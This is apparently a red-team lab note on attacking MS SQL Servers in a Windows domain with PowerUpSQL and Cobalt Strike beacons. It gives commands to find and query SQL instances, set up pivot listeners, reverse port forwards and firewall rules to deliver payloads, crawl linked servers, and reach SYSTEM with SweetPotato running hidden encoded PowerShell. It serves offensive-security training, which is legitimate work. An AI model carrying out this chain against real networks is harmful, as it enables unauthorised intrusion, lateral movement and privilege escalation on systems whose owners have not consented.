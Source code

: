 # Use PowerUpSQL, but before.. import it! 
```powershell-import C:\Tools\PowerUpSQL\PowerUpSQL.ps1```

Find MS SQL Servers
```powershell Get-SQLInstanceDomain```
It works by searching for SPNs that begin with MSSQL*.
You may also search the domain for groups that sound like they may have access to database instances (for example, a "SQL Admins" group).

Test whether or not we can connect to the database
```powershell Get-SQLConnectionTest -Instance "sql-2.dev.cyberbotic.io,1433"```
:triangular_flag_on_post: Try both with simple user and SYSTEM. It could give different results! 

Get more information about the instance
```powershell Get-SQLServerInfo -Instance "sql-2.dev.cyberbotic.io,1433"```
:triangular_flag_on_post:  If there are multiple SQL Servers available, you can chain these commands together to automate the data collection.
```powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo```

There are several options for issuing queries against a SQL instance.  
- Get-SQLQuery from PowerUpSQL ```powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select @@servername"```
- Using msqlclient.py. For this you will need to use proxichain and start SOCKS on the beacon **as SYSTEM**
- Windows GUI for sql via proxifier.

The idea here is to move from the workstation you exploited to an SQL instance. You should be both simple user and a SYSTEM user in order to be able to apply firewall rules.
This is because there is a SQL command length limit that will prevent you from sending large payloads directly in the query. Since the SQL server also cannot reach the team server directly, a reverse port forward can be used to deliver it.
The rev port forward require to open the port on the firewall and only SYSTEM users can do this. 

Starting from being the simple user, create a **pivot listner**. Just use a port you are sure is not already used and leave all the rest as it is.
When you'll encode the payload that need to be linked to the pivot listner just created, you'll need to change the port to 8080 and the IP should be the one of the workstation. (wkstn-2 in our case)
**As Simple User** we'll need do the reverse port forward with ```rportfwd 8080 127.0.0.1 80``` and **as SYSTEM** to create the right rule in the firewall ```powershell New-NetFirewallRule -DisplayName "Test Rule" -Profile Domain -Direction Inbound -Action Allow -Protocol TCP -LocalPort 8080```

This will spawn a beacon on the SQL system. 

From there we can see if this system is linked to another. 
```powershell Get-SQLServerLinkCrawl -Instance "sql-2.dev.cyberbotic.io,1433"```
Let's say we are in a SQL instance 2 and we see it is linked to another SQL instance 1. To execute a shell command on SQL-1 we we'll need to recreate the chain used previously. 
Starting from being the SQL user on SQL 2, create a **pivot listner**. Just use a port you are sure is not already used and leave all the rest as it is.
When you'll encode the payload it needs to be linked to the pivot listner just created, you'll need to change the port to 8080 and the IP should be the one of the SQL 2.
We'll need to do the reverse port forward with ```rportfwd 8080 127.0.0.1 80``` and this will spawn a beacon on the SQL 1 system. 

In this way I will probably become simple user on SQL 1 system since we cannot be a local admin directly. In order to escalate privileges and become SYSTEM a strategy is to force a SYSTEM service to authenticate to a rogue service that the attacker creates.  This rogue service is then able to impersonate the SYSTEM service whilst it's trying to authenticate.

For this we can use SweetPotato
SweetPotato has a collection of these various techniques which can be executed via Beacon's execute-assembly command.

```execute-assembly C:\Tools\SweetPotato\bin\Release\SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc <encoded command>"
The listener you need to create is a TCP listener bind to localhost on a port that is free at the moment. When you encode the web delivery, it should point to the system itself (SQL 1) and port must be 8080 since we are still exploiting the rev portforward.

